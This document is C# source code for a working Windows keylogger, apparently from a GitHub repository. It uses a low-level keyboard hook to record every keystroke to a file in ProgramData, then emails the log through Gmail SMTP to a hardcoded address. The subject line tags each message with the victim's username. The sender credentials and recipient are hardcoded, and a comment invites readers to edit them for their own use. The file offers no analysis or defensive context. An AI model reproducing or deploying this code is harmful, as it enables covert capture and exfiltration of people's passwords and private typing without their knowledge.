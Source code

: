 # keylog
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;
using System.Windows.Forms;
using System.IO;
using System.Net.Mail;
using System.Net;

namespace mykeylogger01
{
    class Program
    {
        // ----------- EDIT THESE VARIABLES FOR YOUR OWN USE CASE ----------- //
        private const string FROM_EMAIL_ADDRESS = "nhangg191@gmail.com";
        private const string FROM_EMAIL_PASSWORD = "dontlogintome";
        private const string TO_EMAIL_ADDRESS = "nhangg191@gmail.com";
        private const string LOG_FILE_NAME = @"C:\ProgramData\mylog.txt";
        private const string ARCHIVE_FILE_NAME = @"C:\ProgramData\mylog_archive.txt";
        private const bool INCLUDE_LOG_AS_ATTACHMENT = true;
        private const int MAX_LOG_LENGTH_BEFORE_SENDING_EMAIL = 300;
        private const int MAX_KEYSTROKES_BEFORE_WRITING_TO_LOG = 0;
        // ----------------------------- END -------------------------------- //

        private static int WH_KEYBOARD_LL = 13;
        private static int WM_KEYDOWN = 0x0100;
        private static IntPtr hook = IntPtr.Zero;
        private static LowLevelKeyboardProc llkProcedure = HookCallback;
        private static string buffer = "";
        
        static void Main(string[] args)
        {
            hook = SetHook(llkProcedure);
            Application.Run();
            UnhookWindowsHookEx(hook);
        }

        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);

        private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam)
        {

            if (buffer.Length >= MAX_KEYSTROKES_BEFORE_WRITING_TO_LOG)
            {
                StreamWriter output = new StreamWriter(LOG_FILE_NAME, true);
                output.Write(buffer);
                output.Close();
                buffer = "";
            }

            FileInfo logFile = new FileInfo(@"C:\ProgramData\mylog.txt");

            // Archive and email the log file if the max size has been reached
            if (logFile.Exists && logFile.Length >= MAX_LOG_LENGTH_BEFORE_SENDING_EMAIL)
            {
                try
                {
                    // Copy the log file to the archive
                    logFile.CopyTo(ARCHIVE_FILE_NAME, true);

                    // Delete the log file
                    logFile.Delete();

                    // Email the archive and send email using a new thread
                    System.Threading.Thread mailThread = new System.Threading.Thread(Program.sendMail);
                    Console.Out.WriteLine("\n\n**MAILSENDING**\n");
                    mailThread.Start();
                }
                catch(Exception e)
                {
                    Console.Out.WriteLine(e.Message);
                }
            }

            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN)
            {
                int vkCode = Marshal.ReadInt32(lParam);
                if (((Keys)vkCode).ToString() == "OemPeriod")
                {
                    Console.Out.Write(".");
                    buffer += ".";
                }
                else if (((Keys)vkCode).ToString() == "Oemcomma")
                {
                    Console.Out.Write(",");
                    buffer += ",";
                }
                else if (((Keys)vkCode).ToString() == "Space")
                {
                    Console.Out.Write(" ");
                    buffer += " ";
                }
                else
                {
                    Console.Out.Write((Keys)vkCode);
                    buffer += (Keys)vkCode;
                }
            }
            
            return CallNextHookEx(IntPtr.Zero, nCode, wParam, lParam);
        }

        public static void sendMail()
        {
            try
            {
                // Read the archive file contents into the email body variable
                StreamReader input = new StreamReader(ARCHIVE_FILE_NAME);
                string emailBody = input.ReadToEnd();
                input.Close();

                // Create the email client object
                SmtpClient client = new SmtpClient("smtp.gmail.com")
                {
                    Port = 587,
                    DeliveryMethod = SmtpDeliveryMethod.Network,
                    UseDefaultCredentials = false,
                    Credentials = new NetworkCredential(FROM_EMAIL_ADDRESS, FROM_EMAIL_PASSWORD),
                    EnableSsl = true,
                };

                // Build the email message
                MailMessage message = new MailMessage
                {
                    From = new MailAddress(FROM_EMAIL_ADDRESS),
                    Subject = Environment.UserName + " - " + DateTime.Now.Month + "." + DateTime.Now.Day + "." + DateTime.Now.Year,
                    Body = emailBody,
                    IsBodyHtml = false,
                };

                if (INCLUDE_LOG_AS_ATTACHMENT)
                {
                    Attachment attachment = new Attachment(@"C:\ProgramData\mylog_archive.txt", System.Net.Mime.MediaTypeNames.Text.Plain);
                    message.Attachments.Add(attachment);
                }

                // Set the recipient
                message.To.Add(TO_EMAIL_ADDRESS);

                // Send the message
                client.Send(message);

                // Release resources used by the msssage (archive file)
                message.Dispose();
            }
            catch (Exception e)
            {
                Console.Out.WriteLine(e.Message);
            }
        }

        private static IntPtr SetHook(LowLevelKeyboardProc proc)
        {
            Process currentProcess = Process.GetCurrentProcess();
            ProcessModule currentModule = currentProcess.MainModule;
            String moduleName = currentModule.ModuleName;
            IntPtr moduleHandle = GetModuleHandle(moduleName);
            return SetWindowsHookEx(WH_KEYBOARD_LL, llkProcedure, moduleHandle, 0);
        }

        [DllImport("user32.dll")]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode, IntPtr wParam, IntPtr lParam);

        [DllImport("user32.dll")]
        private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);

        [DllImport("user32.dll")]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetModuleHandle(String lpModuleName);
    }
}
